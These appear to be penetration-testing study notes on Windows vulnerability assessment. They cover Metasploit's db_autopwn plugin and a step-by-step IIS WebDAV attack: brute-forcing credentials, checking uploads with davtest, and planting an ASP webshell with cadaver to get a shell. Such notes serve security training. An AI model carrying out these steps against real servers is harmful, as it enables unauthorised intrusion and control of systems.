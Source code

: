 # Vulnerability Assessment

Types of windows Vul
- Info disclosure
- Buffer overflows
- Remote Code Execution
- privilege escalation
- DOS

Frequently Exploited Win Native Services
- Microsoft IIS
- WebDAV
- SMB/CIFS
- RDP
- WinRM

**Vul scan with MSF**

**Ultra Useful MSF plugin: metasploit-autopwn**
To load it into msf use the following command
- wget the .rb file
- mv db_autopwn.rb /usr/share/metasploit-framewaork/plugins/
- Inside msfconsole: load db_autopwn (it only works when you got all the service info and host is in the postgredb database, so first do your nmap scans and load it in before using)
- There will be tons of exploit showing up, so be specific like: `db_autopwn -p -t -PI 445`
- `analyze` command will give you recommendations and `vulns` to detect vulnerabilities, it will show the CVEs


### Exploiting Microsoft IIS WebDAV

- IIS is basically a web server developed by microsoft for windows, typically run 80/443 without SSL/with SSL
- WebDav usually run on IIS or apache

**Exploitation Summary**
1. identify if the WebDAV has been configured to run on IIS web server
2. perform a brute-force attack on the server to obtain legitimate credentials
3. we can then authenticate with the WebDAV server and upload malicious .asp payload to get reverse shell
4. use `davtest` upload webshell eg: `davtest -auth username:password -url http://IP/webdav` to do a check to see what file can we upload
5. `cadaver` to upload files `cadaver http://IP/webdav`
6. kali comes with build in webshells at `/usr/share/webshells/`
7. in cadaver we say `put /usr/share/webshells/asp/webshell.asp`
